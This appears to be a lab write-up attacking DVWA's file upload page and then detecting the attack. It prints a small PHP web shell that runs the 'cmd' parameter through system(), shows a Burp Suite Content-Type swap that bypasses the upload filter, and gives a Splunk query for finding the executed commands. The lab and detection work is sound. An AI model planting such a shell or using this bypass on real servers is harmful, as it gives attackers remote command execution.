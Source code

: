 In file upload vulnerability we will try to upload a simple php shell in the upload section and try to execute command on the victim pc

Simple php shell
```
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```
create a .php file and paste the code into it

Now we will try to upload it into dvwa server

![image](https://github.com/user-attachments/assets/f02dda76-671a-40b8-a531-2e92ba49a56c)

![image](https://github.com/user-attachments/assets/d18b0643-30a1-4c78-8281-58f350dc5f0d)

We were not able to upload the php file as it restricts uploading any file other than image files

Now we will use burpsuite to bypass this and upload the php file

Open burpsuite go to proxy section and open the browser within it,go to the file upload section within dvwa

![image](https://github.com/user-attachments/assets/a9e30479-bb1f-453d-90a6-aaa01b7e3fcf)

Now turn on the interception and upload the php file

![image](https://github.com/user-attachments/assets/02a041db-ed4a-49d9-8261-dc972e07b99d)

After intercepting the file right click on it and select 'send to repeater' option

![image](https://github.com/user-attachments/assets/cf7dcaaa-dcd4-4b30-b048-bc32794ea95a)

Now on the repeater tab, near the Content-Type field change it from application 'application/x-php' to 'image/png'

![image](https://github.com/user-attachments/assets/27c06c74-eaa7-46d1-b86a-24bfa71d4386)

On the right side we can see that the php file was uploaded successfully

Now stop the intercept,copy the path `../../hackable/uploads/shell.php' and replace it on the '#' in the url also add the commands for execution
eg
```
?cmd=hostname
```
After pressing enter we will be directed to the php shell where commands could be executed

![image](https://github.com/user-attachments/assets/4e0aed69-da68-43a0-8003-1b021bf2803f)

Attack successful. Now, try to detect it from Splunk Enterprise:

![image](https://github.com/user-attachments/assets/bad9cfe5-f970-4c3b-a805-34f470595d82)

On the uri/uri_path field we can see commands that have been executed using 'cmd' command

![image](https://github.com/user-attachments/assets/280e99fe-c1d6-4a41-a376-2b093b261827)

On the file field we can see the files uploaded 

![image](https://github.com/user-attachments/assets/8cf7e9be-6dec-4ff7-958e-0b6394d4d5ed)

Also by using this commnad we can see which all commands were executed on the victim pc by the attacker

```
index=* sourcetype="access_combined"
(uri_query="cmd=*")
| eval Command=urldecode(replace(uri_query, ".*cmd=", ""))
| table _time, clientip, uri, Command, useragent, req_time, bytes
| sort - _time
```
![image](https://github.com/user-attachments/assets/5d4026d5-f669-497c-8c62-99a9d4840c70)

